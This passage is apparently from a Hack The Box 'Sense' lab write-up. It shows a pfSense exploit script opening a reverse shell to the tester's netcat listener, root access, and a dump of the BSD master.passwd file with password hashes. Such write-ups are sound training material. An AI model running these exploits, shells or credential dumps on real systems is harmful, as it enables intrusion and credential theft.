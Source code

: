
Running the exploit:

```
root@kali:~/htb/sense# python3 pfsense_exploit.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 443 --username rohit --password pfsense                                                                    
CSRF token obtained
Running exploit...
Exploit completed

```

Catching the shell:

```
root@kali:~/htb# nc -lvp 443
listening on [any] 443 ...
10.10.10.60: inverse host lookup failed: Unknown host
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.60] 38589
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# hostname
pfSense.localdomain
```

We are instantly root.

Sometimes it is actually easier to use standalone exploits that trying to figure out why Metasploit is not working.

## Dumping credentials

On a BSD OS the shadow file equivalent is called "master.passwd".

```
root:$1$gDyBgZkB$gPfZd5kHRQ/c/E/YerLft1:0:0::0:0:Charlie &:/root:/bin/sh
toor:*:0:0::0:0:Bourne-again Superuser:/root:
daemon:*:1:1::0:0:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5::0:0:System &:/:/usr/sbin/nologin
bin:*:3:7::0:0:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533::0:0:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533::0:0:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13::0:0:Games pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8::0:0:News Subsystem:/:/usr/sbin/nologin
man:*:9:9::0:0:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22::0:0:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25::0:0:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26::0:0:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53::0:0:Bind Sandbox:/:/usr/sbin/nologin
proxy:*:62:62::0:0:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64::0:0:pflogd privsep user:/var/empty:/usr/sbin/nologin
www:*:80:80::0:0:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
nobody:*:65534:65534::0:0:Unprivileged user:/nonexistent:/usr/sbin/nologin
dhcpd:*:1002:1002::0:0:DHCP Daemon:/nonexistent:/sbin/nologin
_dhcp:*:65:65::0:0:dhcp programs:/var/empty:/usr/sbin/nologin
_isakmpd:*:68:68::0:0:isakmpd privsep:/var/empty:/sbin/nologin
uucp:*:66:66::0:0:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6::0:0:Post Office Owner:/nonexistent:/usr/sbin/nologin
_ntp:*:123:123::0:0:NTP daemon:/var/empty:/sbin/nologin
_relayd:*:913:913::0:0:Relay Daemon:/var/empty:/usr/sbin/nologin
admin:$1$gDyBgZkB$gPfZd5kHRQ/c/E/YerLft1:0:0::0:0:System Administrator:/root:/etc/rc.initial
rohit:*LOCKED*$1$Mp36tTp7$i45qiAbbNfQEcOYCmCelQ0:2000:65534::0:0:Rohit:/home/rohit:/sbin/nologin
```